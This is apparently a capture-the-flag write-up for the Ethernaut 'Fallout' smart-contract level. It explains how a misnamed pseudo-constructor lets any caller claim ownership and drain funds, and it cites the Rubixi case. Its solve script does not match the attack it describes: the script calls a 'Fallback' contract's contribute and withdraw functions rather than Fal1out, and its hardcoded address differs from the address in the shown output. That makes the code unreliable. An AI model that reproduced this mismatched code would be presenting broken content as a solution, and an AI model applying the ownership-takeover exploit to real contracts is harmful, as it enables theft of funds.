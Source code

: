 ```yaml
---
title: Ethernaut Fallout
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Fallout challenge writeup
---
```


## Fallout

### Challenge

Claim ownership of the contract below to complete this level.

  Things that might help

* Solidity Remix IDE


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallout {
  
  using SafeMath for uint256;
  mapping (address => uint) allocations;
  address payable public owner;


  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }

  modifier onlyOwner {
	        require(
	            msg.sender == owner,
	            "caller is not the owner"
	        );
	        _;
	    }

  function allocate() public payable {
    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
  }

  function sendAllocation(address payable allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(address(this).balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
```

### Background

So I will be skipping the Remix IDE since I'm using hardhat.

### Attack

Again solving this is pretty straight forward. The only difficulty is to realize that the function `Fal1out` that has a comment about being the constructor, is not actually the constructor, which means its functionality can be invoked again, and thus take ownership of the contract.

* call `Fal1out` to become the owner
* call `collectAllocations` collect any funds

#### fallout-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    // get contract
    fallbackAddress = "0x253Acf9cFeB752D9A1ce78b808b292E4D91C2c46";
    contract = await ethers.getContractAt("Fallback", fallbackAddress);

    // get account
    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    // initial state
    console.log("Level address   : " + contract.address)
    console.log("Contract Owner  : " + await contract.owner())
    console.log("Contract Balance: " + await ethers.provider.getBalance(contract.address))

    // make small contribution
    tx = await contract.connect(account).contribute({ value: ethers.utils.parseEther("0.001") - 1 })
    receipt = await tx.wait()

    // call fallback function and become owner
    tx = await account.sendTransaction({
        to: contract.address,
        data: "0x",
        value: ethers.utils.parseEther("0.001")
    });
    receipt = await tx.wait()

    // withdraw contract funds
    tx = await contract.connect(account).withdraw()
    receipt = await tx.wait()

    // final state
    console.log("Contract Owner  : " + await contract.owner())
    console.log("Contract Balance: " + await ethers.provider.getBalance(contract.address))
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/fallout-solve.js --network rinkeby
Level address   : 0x96d93dde51Ed1aCeEDf9E8EEE72b4b85390Bca84
Contract Owner  : 0x0000000000000000000000000000000000000000
Contract Balance: 0
Contract Owner  : 0x11bAe9eA1851939a485f1F00b7B0Eec099e9276d
Contract Balance: 0
```

### Success Message

That was silly wasn't it? Real world contracts must be much more secure than this and so must it be much harder to hack them right?

Well... Not quite.

The story of Rubixi is a very well known case in the Ethereum ecosystem. The company changed its name from 'Dynamic Pyramid' to 'Rubixi' but somehow they didn't rename the constructor method of its contract:

```
contract Rubixi {
  address private owner;
  function DynamicPyramid() { owner = msg.sender; }
  function collectAllFees() { owner.transfer(this.balance) }
  ...
```

This allowed the attacker to call the old constructor and claim ownership of the contract, and steal some funds. Yep. Big mistakes can be made in smartcontractland.
